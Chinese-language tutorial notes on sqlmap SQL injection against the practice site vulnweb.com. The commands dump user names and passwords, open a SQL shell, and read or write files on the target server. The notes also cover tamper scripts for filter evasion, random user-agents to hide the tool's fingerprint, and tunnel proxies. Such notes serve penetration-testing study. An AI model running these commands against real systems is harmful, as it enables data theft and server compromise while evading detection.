# WEB攻防-注入工具&SQLMAP&Tamper编写&指纹修改&高权限操作&目录架构

[toc]


## :e-mail:数据猜解-库表列数据&字典

测试：http://vulnweb.com/



`-u`加地址

```
python .\sqlmap.py -u "xxxxxx"
```



```
--current-db              //查询当前数据库
```





```
--tables -D "acuart"          //-D  数据库  从xxx数据库里查询表名
```





```
--columns  -T "users"  -D "acuart"     //查询列  -T是表    -D是数据库
```

```
--dump-all          猜全部
```

 



```
--dump -C  "name,pass"  -T "users"  -D "acuart"   //导出
```





`C:\Users\xxxx\AppData\Local\sqlmap\output`内容存放在这里



```
--is-dba       //查询当前是否为数据库管理员
```





```
--sql-shell   //执行sql命令
```

```
--file-read "c:\xxxx"   //读取文件
```

```
--file-write "c:\xxxx"   --file-dest "c:/"     //把电脑里的xxx文件写进对方的xxx
```

##   POST注入









## 标头注入/文件注入



创建txt文件，放入在sqlmap的根目录下



可以在需要注入的地方加入*号，可以节约时间/==如果这个网站只能手机访问，sqlmap只能采用自己的方式访问==




## 模块使用base64



https://www.cnblogs.com/bmjoker/p/9326258.html 参考



这里有软件自带的模块



```
--tamper=base64encode.py
```





```
--tamper=base64encode.py  --tables
```



面对不同情况可以自己写python代码



## 详细信息


2、打乱默认指纹：  ==替换sqlmap头==

--user-agent ""  #自定义user-agent

--random-agent  #随机user-agent

--time-sec=(2,5) #延迟响应，默认为5

## 等级

 

--level=(1-5) #要执行的测试水平等级，默认为1 

--risk=(0-3)  #测试执行的风险等级，默认为1 

## 代理


联动其他软件



购买隧道代理


